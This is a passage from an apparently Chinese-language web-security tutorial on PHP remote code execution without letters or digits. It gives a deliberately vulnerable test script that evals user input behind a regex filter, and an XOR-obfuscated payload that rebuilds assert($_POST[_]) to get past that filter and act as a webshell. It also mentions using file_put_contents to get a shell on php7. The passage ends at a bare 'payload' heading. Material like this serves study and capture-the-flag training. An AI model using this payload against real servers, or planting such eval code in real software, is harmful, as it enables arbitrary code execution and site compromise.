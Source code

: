 版本为php5

 

php5中assert是一个函数，我们可以通过`$f='assert';$f(...);`这样的方法来动态执行任意代码。

 

但php7中，assert不再是函数，变成了一个语言结构（类似eval），不能再作为函数名动态执行代码，所以利用起来稍微复杂一点。但也无需过于担心，比如我们利用file_put_contents函数，同样可以用来getshell。

 

# **无数字和字母rce**

 

测试代码

 

```
<?php

if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {

 eval($_GET['shell']);

}
```

 

```
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']');$___=$$__;$_($___[_]);
```

在这里面经过url编码的字符能够绕过

所以%01这些不会被匹配

 

```
<?php

$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');//$_='assert';

$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';

$___=$$__;

$_($___[_]); //所有的合起来就是 assert($_POST[_]);

 
```

payload

 
